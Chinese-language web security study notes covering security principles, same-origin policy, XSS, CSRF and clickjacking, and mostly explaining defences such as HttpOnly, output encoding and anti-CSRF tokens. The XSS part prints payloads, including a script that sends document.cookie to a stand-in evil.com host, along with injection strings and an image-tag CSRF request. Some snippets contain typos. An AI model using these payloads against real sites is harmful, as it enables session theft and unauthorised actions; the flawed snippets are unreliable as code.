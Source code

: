 # web安全
## 揭秘web安全的本质
安全是什么？什么样的情况下会产生安全问题？我们要如何看待安全问题？只有搞明白了这些基本问题，才能明白一切防御技术的出发点，才能明白为何我们要这样做，要那样做。

我们不妨从现实世界入手。火车站，机场里，在乘客们开始正式旅程之前，都有必要的程序：安全检查。这种检查就是过滤有害的，危险的东西。通过这种检查，可以梳理未知的人或物，使其变得可信任。web安全也是如此，安全问题的本质是信任问题。

一切的安全的方案的基础，都是建立在信任关系上的。我们必须相信一些东西，必须有一些最基本的假设，安全方案才能得以建立；如果我们否定一切，安全方案就会如无源之水，无根之木，也无法完成。

## 安全三要素
在设计方案之前，要正确全面地看待安全问题。

要全面地认识安全问题，我们有很多种办法，但首先要理解安全问题的组成属性。前人通过无数次实践，最后将安全的属性总结为安全三要素，简称CIA

安全三要素是安全的基本组成元素，分别是**机密性(Confidentiality)**, **完整性(Integrity)**, **可用性(Avaliability)**。

**机密性**要求保护数据内容不能泄露，加密是实现机密性要求的常见手段。

**完整性**要求保护的内容是完整的，没有被篡改的。常见的保证一致性的技术手段是数字签名

**可用性**要求保护资源是"随需而得的"，假设一个停车场里有100个车位，在正常情况下，可以停100辆车。但是在某一天，有个坏人搬了100块大石头，把每个车位都占用了，停车场无法再提供正常的服务。在安全领域中这中攻击叫做拒绝服务攻击，简称Dos(Denial of service)。拒绝服务攻击破坏的是安全的可用性。

## Secure By Default原则
在设计安全方案时，最基本也是最重要的原则就是“secure By Default”。在做任何安全设计时，都要牢牢记住这个原则。一个方案设计得是否足够安全，与有没有应用这个原则有很大的关系。实际上， “secure By Default”原则，也可以归纳为白名单，黑名单思想。如果更多地使用白名单，那么系统就会变得更安全。

## 黑名单，白名单

比如，在制定防火墙的网络访问控制策略时，如果网站只提供web服务，那么正确的做法是只允许网站服务器的80和443端口对外提供服务，屏蔽除此之外的其他端口。这是一种“白名单”做法；如果使用“黑名单”，则可能出现问题。假设黑名单的策略是：不允许SSh端口对Internet开发，那么就要审记SSH的默认端口：22端口是否开发了Internet。但在实际工作过程中，经常会发现有的工程师为了偷懒或图方便，私自改变了SSH的监听端口，比如把SSH的端口从22改到了2222，从而绕过了安全策略。

又比如，在网站的生产环境服务器上，应该限制随意安装软件，而需要制定统一的软件版本规范。这个规范的制定，也可以选择白名单的思想来实现。按照白名单的思想，应该根据业务需求，列出一个允许使用的软件版本清单，在此清单外的软件则禁止使用。如果允许工程师在服务器上随意安装软件的话，则可能会因为安全部门不知道，不熟悉这些软件而导致一些漏洞，从而扩大攻击面。

在web安全中，对白名单思想的运用也比比皆是。比如应用处理用户提交的富文本时，考虑到XSS的问题，需要做安全检查。常见的XSS Filter一般是先对用户输入的HTML原文作HTML Parse, 解析成标签对象后，再针对标签匹配XSS的规则。这个规则列表就是一个黑白名单。如果选择黑名单思想，则这套规则里可能是禁用诸如```<script>```, ```<iframe>```等标签。但是黑名单可能会有遗漏，比如未来浏览器如果支持新的html标签，那么此标签可能就不在黑名单之中了。如果选择白名单的思想，就能避免种问题，在规则中，只允许用户输入诸如```<a>,<img>```等需要用到的标签。 

## 最小权限原则

**Secure By Default** 的另一层含义就是“最小权限原则”。最小权限原则也是安全设计的基本原则之一。最小权限原则要求系统只授予主体必要的权限，而不要过度授权，这样能有效地减少系统，网络，应用数据库出错的机会。

**数据与代码分离原则**
另一个重要的安全原则是数据与代码分离原则。这一原则广泛适用于各种由于“注入”而引发的安全问题的场景。

实际上，缓冲区溢出，也可以认为是程序违背了这一原则的后果——程序在栈或者堆中，将用户数据当做代码执行，混淆了代码与数据的边界，从而导致安全问题的发生。

在web安全中，由“注入”引起的问题比比皆是，如XSS, SQL Injection,CRLF Injection, Xpath Injection等。此类问题均可以根据“数据与代码分离原则”设计出真正安全的解决方案，因为这个原则抓住了漏洞形成的本质原因。

以XSS为例，它产生的原因是HTML Injection 或 JavaScript Injection，如果一个页面的代码如下
```
<html>
  <head>test</head>
  <body>
    $var
  </body>
</html>

```
其中 $var 是用户能够控制的变量，那么对于这段代码来说:
```
<html>
  <head>test</head>
  <body>
  </body>
</html>

```
就是程序的代码执行段。

而
**$var**
就是程序的用户数据片段。如果把用户数据片段 **$var** 当成代码片段来解释、执行，就会引发安全问题。
比如，当$var的值是
```
<script  src=http://evil ></script>
```

时，用户数据就被注入到代码片段中。解析这段脚本并执行的过程，是由浏览器来完成的——浏览器将用户数据里的<script>标签当做代码来解释——这显然不是程序开发者的本意。
根据数据与代码分离原则，在这里应该对用户数据片段 $var 进行安全处理，可以使用过滤、编码等手段，把可能造成代码混淆的用户数据清理掉，具体到这个案例中，就是针对 <、> 等符号做处理。

有的朋友可能会问了：我这里就是要执行一个<script>标签，要弹出一段文字，比如：“你好！”，那怎么办呢？

在这种情况下，数据与代码的情况就发生了变化，根据数据与代码分离原则，我们就应该重写代码片段：

```
<html>
  <head>test</head>
  <body>
    <script>
      alert("$var1");
    </script>
  </body>
</html>
```
在这种情况下，<script>标签也变成了代码片段的一部分，用户数据只有 $var1 能够控制，从而杜绝了安全问题的发生。

## 同源策略

同源策略(Same Origin Policy)是一种约定，它是浏览器最核心也是最基本的安全功能，如果缺少了同源策略，则浏览器的正常功能都可能会受到影响。可以说Web是构建在同源策略的基础之上的，浏览器只是针对同源策略的一种实现。
 很多时候浏览器实现的同源策略是隐形的，透明的，很多因为同源策略导致的问题并没有明显的出错提示，如果不熟悉同源策略，则可能一直都会想不明白问题的原因。
 
 浏览器的同源策略，限制了来自不同源的“document”或脚本，对当前”dicument“读取或设置某些属性。
 
 需要注意的是，对于当前页面来说，页面内存放JavaScript文件的域并不重要，重要的是加载JavaScript页面所在的域是什么。
 换言之，a.com通过以下代码：
 ```
 <script src="http://b.com/b.js"></script>
 ```
 加载来b.com上的b.js，但是b.js是运行在a.com页面中的，由此对于当前打开的页面(a.com页面)来说，b.js的origin就应该是a.com而非b.com。
 
 在浏览器中，<script>,<img>,<iframe>,<link>等标签都可以跨域加载资源，而不受同源策略的限制。这些“src”属性的标签每次加载时，实际上是由浏览器发起一次GET请求。不同于XMKHttpRequest的是，通过src属性加载的资源，浏览器限制了JavaScript的权限，使其不能读，写返回的内容。
 
 对于XMLHttpRequest来说，它可以访问来自同源对象的内容。比如下例：
 ```
 <html>
  <head>
    <script type="text/javascript">
      var xmlhttp;
      function loadXMLDoc(url)
      {
        xmlhttp=null;
        if (window.XMLHttpRequest)
        {// code for Firefox, Opera, IE7, etc.
          xmlhttp=new XMLHttpRequest();
        }
        else if (window.ActiveXObject)
        {// code for IE6, IE5
          xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
        }
        if (xmlhttp!=null)
        {
          xmlhttp.onreadystatechange=state_Change;
          xmlhttp.open("GET",url,true);
          xmlhttp.send(null);
        }
        else
        {
          alert("Your browser does not support XMLHTTP.");
        }
      }

      function state_Change()
      {
        if (xmlhttp.readyState==4)
        {// 4 = "loaded"
          if (xmlhttp.status==200)
          {// 200 = "OK"
            document.getElementById('T1').innerHTML=xmlhttp.responseText;
          }
          else
          {
            alert("Problem retrieving data:" + xmlhttp.statusText);
          }
        }
      }
    </script>
  </head>

  <body onload="loadXMLDoc('/example/xdom/test_xmlhttp.txt')">
    <div id="T1" style="border:1px solid black;height:40;width:300;padding:5"></div><br />
    <button onclick="loadXMLDoc('/example/xdom/test_xmlhttp2.txt')">Click</button>
  </body>

</html>

 ```
 
 但XMLHttpRequest受到同源策略但约束，不能跨域访问资源，在AJAX应用的开发中尤其要注意这一点
 
 ## 跨站脚本攻击(XSS)
 
 跨站脚本攻击，英文全称是Cross Site Script, 本来缩写是CSS，但是为了和层叠样式有所区别，所以在安全领域叫做“XSS”
 
 XSS攻击，通常是指黑客通过“HTML注入”篡改网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。在一开始，这中攻击的演示案例是跨域的，所以叫做“跨站脚本”。但是发展到今天，由于JavaScript的强大功能以及网站前端应用的复杂化，是否跨域已经不再重要。但是由于历史的原因，XSS这个名字却一直保留下来。
 
 那么，什么是XSS呢？看看下面的例子。
 
 假设一个页面把用户输入的参数直接输出到页面上：
 ```
 <?php
 $input = $_GET("param");
 echo "<div>".$input."</div>"
 ?>
 
 ```
 
 在正常情况下，用户向param提交的数据会展示到页面中，比如提交： 
 ```
 https://www.a.com/test.php?param="我是测试内容"
 ```
 这是正常情况
 
 但是如果提交一段HTML代码
 ```
 https://www.a.com/test.php?param=<script>
 alert(/xss/)
 </script>
 ```
 会发现，alert(/xss/)在当前页面执行了，这显然不是用户想看到的结果
 
 上面的这个例子，就是XSS的第一种类型： 反射型XSS.
 
 XSS根据效果的不同可以分成如下几类。
 
 **第一种类型：反射型XSS**
 
 反射型XSS只是简单地把用户输入的数据“反射”给浏览器。也就是说，黑客往往需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型XSS也叫做“非持久型XSS”
 
 **第二种类型：存储型XSS**
 
存储型XSS会把用户输入的数据“存储”在服务器端。这种XSS具有很强的稳定性。

比较常见的一个场景就是，黑客写下一篇包含有恶意JavaScript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的JavaScript代码。黑客把恶意的脚本保存到服务器端，所以这种XSS攻击叫做”存储型XSS“。

第三种类型：DOM Based XSS 
实际上，这种类型的XSS并非按照“数据是否保存在服务器端”来划分的，DOM Based XSS 从效果上来说也是反射型XSS。单独划分出来，是因为DOM Based XSS的形成原因比较特别

通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS

看如下代码
```
<script>
    function test() {
        var str = document.grtElementById("test").value;
        document.getElementById("t").innerHTML = "<a href = '"+str+"'>testLinr</a>"
    }
    <div id="t"></div>
    <input type="text" id="text" value="">
    <input type="button" id="s" value="write" onclick="test()">
</script>
```
 在这里，“write”按钮的onclick事件调用了test() 函数。而在test()函数中，修改了页面的DOM节点，通过innerHTML把一段用户数据html写入到页面中，这就造成了DOM Based XSS
 
 构造如下数据
 ```
 'Onclick = alert(/xss/)' //
 ```
 输入后，页面代码就变成了：
 ```
 <a href='' onclick="alert(/xss/)">testLink</a>
 ```
 
首先用一个单引号闭合掉href的第一个单引号，然后插入一个onclick事件，最后再用注释符“//”注释掉第二个单引号。

实际上，这里还有另外一种利用方式——除了构造一个新的事件外，还可以选择闭合掉<a>的标签，并插入一个新的HTML标签。尝试如下输入：
```
'><img src=# onerror=alert(/xss2/) /><'
```
页面代码变成
```
<a href=""><img src=# onerror=alert(/xss2/) /><'' >testLink</a>
```


**初探XSS Payload**

XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这些用以完成各种具体功能的恶意脚本，被称为“XSS Payload”。
 
 XSS Payload实际上就是JavaScript脚本，所以任何JavaScript脚本能实现的功能，XSS PayLoad都能做到。
 
 一个最常见的XSS Payload，就是通过读取浏览器的Cookie对象，从而发起“Cookie劫持”攻击。
 
 如下所示，攻击者先加载一个远程脚本
 ```
 http://www.a.com/test.htm?abc="><script
 src="http://www.evil.com/evil.js
 >
 
 </script>
 ```
 
 真正的XSS Payload写在一个远程脚本中，避免直接在URL的参数里写入大量的JavaScript代码。
 
 在evil.js中，可以通过如下代码窃取Cookie:
 ```
 var img = doument.creatElement("img")
 img.src="http://www.evil.com/log?"+escape(document.cookie)
 document.body.appendChild(img)
 ```
 这段代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器。
 
 ## 构造GET与POST
 一个网站的应用，只需要接受HTTP协议中的GET或POST请求，即可完成所有操作，对于攻击者来说，仅通过JavScript,就可以让浏览器发起这两种请求，比如删除博客的一篇文章。
 
 正常删除文章的链接是：
 http://********/manage/entry.do?m=delete&id=123
 
 对于攻击者来说，只需要知道文章的id,就能通过这个请求删除这篇文章了，本例文章id是123。
 
 攻击者可以通过插入一张照片来发起一个GET请求：
 ```
var img = document.createElement("img")
img.src= "http://*****/manage/entry.do?m=123"
document.body.appendChild(img)
 ```
 
 攻击者只需要让博客的作者执行这段JavaScript代码，就会把这篇文章删除。
 
 ## XSS的防御
 
 
 XSS的防御是复杂的，流行的浏览器都内置来一些对抗XSS的措施，比如Firefox的CSP, Noscript扩展，IE8内置的XSS Filter等。而对于网站来说，也应该寻找优秀的解决方案，保护用户不被XSS攻击。
 
 **HttpOnly**
 
 HttpOnly最早是由微软提出，浏览器将禁止页面的JavaScript访问带有HttpOnly属性的Cookie.
 
 HttpOnly的使用非常灵活。如下是一个使用HttpOnly的过程
 ```
 <?php
 header("set-Cookie": cookie1=test1);
 header("set-Cookie": cookie2=test2;httponly",false)
 
 ?>
 <script>
 alert(document.cookie);
 </script>
 ```
 
  虽然保存来两个cookie,但是只有cookie1被javaScript取到来。httponly起到来应有的作用。
  
  
 **输入检查**
 
 常见的Web漏洞如：Xss, SQL Inject等，都要求攻击者构造一些特殊字符，这些特殊字符可能是正常用户不会用到的，所以输入检查就有存在的必要了。
 
 在XSS的防御上，输入检查一般是检查用户输入的数据中是否包含一些特殊字符，如： <,>,等，如果发现存在特殊字符，则将这些字符过滤或者编码。
 
 
 **安全的编码函数**
 编码分为很多种，针对HTML代码的编码方式是HTMLEncode.
 HTMLEncode并非专用名次，它只是一种函数实现。它的作用是将字符串转换成HTMLEntities,对应的标准是ISO-8859-1
 
 为了对抗XSS,在HtmlEncode中要求至少转换以下字符
 
 & --> &amp
 
 < --> &It
 
 
 ## 跨站点请求伪造(CSRF)
 
 在上面我们介绍过使用XSS Payload，只需要请求这个url,就能够把编号为“123”的博客文章删除。
 ```
 http://*****/manage/entry.do?m=deldted&id=123
 ```
 
 这个URL同时还存在CSRF漏洞。我们将尝试利用CSRF漏洞，删除编号为“123”的博客文章。这边文章的标题是"test1"
 
 攻击者首先在自己的域构造一个页面
 ```
 http://www.a.com/csrf.html
 ```
 其内容为
 
```
<img src="http://blog.sohu.com/manage/entry.do?m=delete&id=123"
```

使用了一个<img>标签，其地址指向了删除博客文章的链接。
攻击者诱使目标用户，访问这个页面。


##  CSRF的防御

CSRF攻击是一种比较奇特的攻击，下面看看有什么办法可以防御这种攻击。

**验证码**

验证码被认为是对抗CSRF攻击最简单而有效的防御方法。

CSRF攻击的过程，往往是在用户不知情的情况下构造网络请求。而验证码，则强制用户必须与应用进行交互，才能完成最终请求。因此在通常情况下，验证码能够很好地遏制CSRF攻击。

但验证码并非万能。很多时候，出于用户体验考虑，网站不能给所有的操作都加上验证码。因此，验证码只能作为防御CSRF的一种辅助手段，而不能作为主要的解决方案。

**Referer Check**


Referer Check在互联网中最常见的应用就是“防止图片盗链”。 同理，Referer Check也可以被用于检查请求是否来自合法的“源”

常见的互联网应用，页面与页面之间都具有一定的逻辑关系，这就使得每个正常请求的Referer具有一定的规律。

比如一个“论坛发帖”的操作，在正常情况下需要先登录到用户后台，或者访问有发帖功能的页面。在提交“发帖”的表单时，Referer的值必然是发帖表单所在页面。如果referer的值不是这个页面，甚至不是发帖网站的域，则极有可能是CSRF攻击。

即使我们能够检查Referer是否合法来判断用户是否被CSRF攻击，也仅仅是满足了防御的充分条件。Referer Check的缺陷在于，服务器并非什么时候都能取到Referer。很多用户出于隐私保护的考虑，限制Referer的发送。在某些情况下，浏览器也不会发送Refer,比如从HTTPS跳转到HTTP，出于安全的考虑，浏览器也不会发送Referer。

在Flash的一些版本中，曾经可以发送自定义的Referer头。虽然Flash在新版本中已经加强了安全限制，不再允许发送自定义的Referer头，但是难免不会有别的客户端插件允许这中操作。

出于以上种种原因，我们还是无法依赖于Referer Check作为防御CSRF的主要手段。但是通过Referer Check来监控CSRF攻击的发生，倒是一种可行方法。

**CSRF的本质**

CSRF为什么能够攻击成功？其本质原因是重要操作的所有参数都是可以被攻击者猜测到的。

攻击者只有预测出URL的所有参数与参数值，才能成功地构造一个伪造请求，反之，攻击者将无法攻击成功。

出于这个原因，可以想到一个解决方案：把参数加密，或者使用一些随机数，从而让攻击者无法猜测到参数。这是“不可预测性原则”的一种应用。

比如，一个删除操作的URL是：
```
http://****/delete?username=abc&item=123
```

把其中的username参数改成哈希值：

```
http://****/delete?username=md5(salt+abc)&item=123
```
这样，在攻击者不知道salt的情况下，是无法构造出这个url的，因此也就无从发起CSRF攻击来。而对于服务器来说，则可以从session或cookie中取得“username=abc”的值，再结合salt对整个请求进行验证，正常请求会被认为是合法的。

但是这个方法也存在一些问题。首先，加密或者混淆后的URL将变得非常难读，对于用户非常不友好。其次，如果加密的参数每次都改变，则某些URL将无法再被用户收藏。最后，普通的参数如果也被加密或者哈希，将会给数据分析工作带来很大的困扰，因为数据分析工作常常需要用到参数明文。

因此，我们需要一个更加通用的解决方案来帮助解决这个问题。这个方案就是使用Anti CSRF TOken。

回到上面的URL中，保持原参数不变，新增一个参数Token。这个Token的值是随机的，不可预测：
```
http://****/delete?username=abc&item=123$toktn=[random(seed)]
```

Token需要足够随机，必须使用足够安全的随机数生成算法，或者采用真随机数生成器。Token应该作为一个“秘密”，为用户与服务器所共同持有，不能被第三者知晓。在实际应用时，Token可以放在用户的session中，或者浏览器的cookie中。

由于Token的存在，攻击者无法再构造出一个完整的URL实施CSRF攻击。

**点击劫持**

点击劫持是一种视觉上的欺骗手段，攻击者使用一个透明的，不可见的Ifram，覆盖在一个网页上，然后诱使用户在该网页上进行操作，此时用户将在不知情的情况下点击透明的Ifram页面。通过调整Ifram页面的位置，可以诱使用户恰好点击在ifram页面的一些功能性按钮上。

**图片覆盖攻击**

点击劫持的本质是一种视觉欺骗。顺着这个思路，还有一些攻击方法也可以起到类似的作用，比如图片覆盖。

一名叫sven.vetsch的安全研究者最先提出这种Cross Site Image Overlaying攻击，简称XSIO。sven.vetsch通过调整图片的style使得图片能够覆盖在他所指定的任意位置。

```
<a href="http://disenchant.ch">
<img src="http://disenchant.ch/powered.jpg" 
style=position:absolute;right;320px;top:90px

/>
```

点击此图片的话，会被链接到其他网站。

